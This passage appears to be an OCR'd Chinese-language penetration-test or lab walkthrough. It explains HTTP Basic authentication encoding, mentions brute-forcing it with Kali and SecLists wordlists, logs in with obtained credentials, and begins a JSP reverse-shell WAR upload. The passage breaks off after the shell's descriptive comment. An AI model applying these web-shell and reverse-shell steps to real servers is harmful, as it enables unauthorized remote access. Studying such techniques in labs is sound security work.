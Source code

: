 补充下，像如下认证，是在请求头里 用 `username:password` 这种格式再用 base64 编码后的数据传输的。如果爆破的话，在 kali 里有特定的字典 ，seclists 里 的 password 里有特定编码好的字典

<img src=".\图片\Snipaste_2023-07-09_10-30-27.png" alt="Snipaste_2023-07-09_10-30-27" style="zoom:80%;" />

我们这里不用字典，拿到了账号密码直接登录即可

<img src=".\图片\Snipaste_2023-07-09_10-34-47.png" alt="Snipaste_2023-07-09_10-34-47" style="zoom:80%;" />

接下来是上传一个 jsp 反弹 shell 的 war 包，访问触发再监听即可

shell.jsp 为：

```jsp
<%
    /*
     * Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.
     * If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
     * Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing 
     * the command specified in the HTML form). This is to avoid to keep it simple.
     */
%>

<%@page import="java.lang.*"%>
```